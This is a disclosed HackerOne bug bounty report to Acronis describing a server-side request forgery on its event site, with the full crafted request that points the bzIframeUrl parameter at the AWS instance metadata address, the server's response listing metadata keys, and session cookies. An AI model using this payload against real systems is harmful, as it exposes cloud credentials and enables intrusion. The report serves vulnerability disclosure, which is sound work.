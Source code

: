 # FULL SSRF 

## Report Details
- **Report ID**: 1241149
- **URL**: https://hackerone.com/reports/1241149
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-06-22T13:57:44.662Z
- **Disclosed**: 2022-02-22T09:09:11.877Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
hello dear support

i have found full ssrf  on https://summit.acronis.events

step

go to here https://summit.acronis.events
2 login into website
3 open this link 
https://summit.acronis.events/login/wl?bzIframeUrl=ls&eventGroup=31048&eventId=228513&encryptedOrigin=1%3APXwmTfsOX5swR5WLWW1hEcWFR24vg2RCT1aflJJNM%2BchgNaRQ2fSRv7QJX3Ro27uTjR%2BUzV0z1s3siiObx%2BOHQ%3D%3D&screen=PROFILE_FULL&closable=false&emailLoginRedirectUrl=https%3A%2F%2Fsummit.acronis.events%2Fsettings%2Fprofile&colorMain=%2362a4f7&showChangeEmail=true&showTitle=false&encryptedTokens=1%3AIqgWUC4KnRXhJjI%2Bh4Hr1qbBFa%2FF3CT1SYs5Uv0s6S6ujzX%2FeGjQpYoJiqxy4un688xsXJXHC0CefbCMT724MnJxY%2BPoWfg3UO%2FHX49FTANq%2Fe9cyA%2BXlhLeAn7gWIAyZzg4RNnSwO0OEi%2FcFx5ozg%3D%3D&enableTicketIdLogin=true&enableFullStory=true&restrictLoginWithoutRegistration=true&IBMBannedCountries=false

this parameter injectable bzIframeUrl=ls


http request
===============
GET /login/wl?bzIframeUrl=http%3a%2f%2f169%2e254%2e169%2e254%2flatest%2fmeta-data%2f&eventGroup=31048&eventId=228513&encryptedOrigin=1%3APXwmTfsOX5swR5WLWW1hEcWFR24vg2RCT1aflJJNM%2BchgNaRQ2fSRv7QJX3Ro27uTjR%2BUzV0z1s3siiObx%2BOHQ%3D%3D&screen=PROFILE_FULL&closable=false&emailLoginRedirectUrl=https%3A%2F%2Fsummit.acronis.events%2Fsettings%2Fprofile&colorMain=%2362a4f7&showChangeEmail=true&showTitle=false&encryptedTokens=1%3AIqgWUC4KnRXhJjI%2Bh4Hr1qbBFa%2FF3CT1SYs5Uv0s6S6ujzX%2FeGjQpYoJiqxy4un688xsXJXHC0CefbCMT724MnJxY%2BPoWfg3UO%2FHX49FTANq%2Fe9cyA%2BXlhLeAn7gWIAyZzg4RNnSwO0OEi%2FcFx5ozg%3D%3D&enableTicketIdLogin=true&enableFullStory=true&restrictLoginWithoutRegistration=true&IBMBannedCountries=false HTTP/1.1
Host: summit.acronis.events
Cookie: x-bz-refresh-attendee-token=1f20fffa-1d8c-4506-9cb1-a5a45f211f98; _sp_id.880c=7fe0ad97-2770-41fa-b581-7ecb70330cec.1624293618.2.1624368877.1624293618.393f9cc8-7a6d-47f4-a5b1-5667891dbdfc; fs_uid=rs.fullstory.com#1lwN#6586826684178432:5558978104074240/1655904977; _sp_ses.880c=*; refiner_cookie_uuid=dafb40af-1b5f-b6da-e439-44379b6fe8d2; x-bz-access-attendee-token=78d438e2-446e-447b-9701-84df313b7afb; bz-attendee-at-31048=b19ff262-eb59-4c1d-b9ab-b0a398aed822; bz-attendee-rt-31048=1f20fffa-1d8c-4506-9cb1-a5a45f211f98; bz-cookie=s%3Ah9Fq6WM7rbO2DmPtL8HE5O5rGnJUUDMh.duF44pXpFqemhkeLQ10i6QnONcYY1niJ90uEeEWAGfo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close


response 
=-===========
HTTP/1.1 200 OK
Server: openresty
Date: Tue, 22 Jun 2021 13:49:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 290
Connection: close
Server-Timing: intid;desc=44ca21115b28a77e
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
X-XSS-Protection: 0
ETag: W/"122-ylO3hCR8VY9AkhBnM/tMCD6Vh+c"
Set-Cookie: bz-cookie=s%3AeNtrIjUGQkT3ykpQRgS8-5S4Yf_XouuP.CjKPzKvsH0H6QSc8T%2Fsfnan2TgGjuZamvg3prcS%2BOnE; Path=/; Expires=Tue, 22 Jun 2021 13:54:41 GMT; HttpOnly; Secure; SameSite=None
Vary: Accept-Encoding
Expires: Tue, 22 Jun 2021 13:49:40 GMT
Cache-Control: no-cache

ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-keys/
reservation-id
security-groups
services/


full url :https://summit.acronis.events/login/wl?bzIframeUrl=http%3a%2f%2f169%2e254%2e169%2e254%2flatest%2fmeta-data%2f&eventGroup=31048&eventId=228513&encryptedOrigin=1%3APXwmTfsOX5swR5WLWW1hEcWFR24vg2RCT1aflJJNM%2BchgNaRQ2fSRv7QJX3Ro27uTjR%2BUzV0z1s3siiObx%2BOHQ%3D%3D&screen=PROFILE_FULL&closable=false&emailLoginRedirectUrl=https%3A%2F%2Fsummit.acronis.events%2Fsettings%2Fprofile&colorMain=%2362a4f7&showChangeEmail=true&showTitle=false&encryptedTokens=1%3AIqgWUC4KnRXhJjI%2Bh4Hr1qbBFa%2FF3CT1SYs5Uv0s6S6ujzX%2FeGjQpYoJiqxy4un688xsXJXHC0CefbCMT724MnJxY%2BPoWfg3UO%2FHX49FTANq%2Fe9cyA%2BXlhLeAn7gWIAyZzg4RNnSwO0OEi%2FcFx5ozg%3D%3D&enableTicketIdLogin=true&enableFullStory=true&restrictLoginWithoutRegistration=true&IBMBannedCountries=false

## Impact

SSRF

## Attachments
No attachments

